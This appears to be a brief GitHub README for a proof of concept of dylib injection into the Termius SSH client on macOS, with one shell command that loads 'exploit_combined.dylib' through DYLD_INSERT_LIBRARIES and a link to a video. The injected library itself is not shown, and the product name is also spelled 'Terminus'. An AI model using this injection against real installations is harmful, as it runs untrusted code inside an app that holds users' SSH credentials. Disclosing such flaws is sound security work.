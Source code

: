 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```


[![video poc](https://youtu.be/R-Kze6liCwA)]
